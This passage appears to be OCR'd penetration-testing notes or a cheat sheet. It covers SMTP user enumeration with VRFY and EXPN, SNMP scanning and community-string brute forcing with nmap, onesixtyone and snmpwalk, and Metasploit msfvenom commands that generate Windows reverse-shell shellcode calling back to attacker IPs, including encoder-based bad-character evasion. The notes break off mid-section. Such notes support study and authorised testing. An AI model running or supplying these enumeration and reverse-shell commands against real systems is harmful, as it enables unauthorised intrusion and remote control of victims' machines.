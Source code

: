 Port 25

VRFY cmd checks if user email exists.

EXPN asks if server is a member of a mailing list.



# SNMP

http://publib.boulder.ibm.com/infocenter/pseries/v5r3/index.jsp?topic=/com.ibm.aix.progcomm/doc/progcomc/mib.htm

UDP Port 161

```bash
nmap -sU --open -p 161 <ip> 
```

**Common community strings** public, private, manager

```bash
onesixtyone -c <file with list of community strings> -i <file with list of ips>
```

```bash
snmpwalk -c public -v1 <IP>
```



# Metasploit

Shellcode generation

```bash
msfvenom -l payloads
```

windows reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c
```

windows unicode reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none
```



remove bad characters by using encoders for example shikata_ga_nai

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

for threaded servers use thread exit function not exit process:

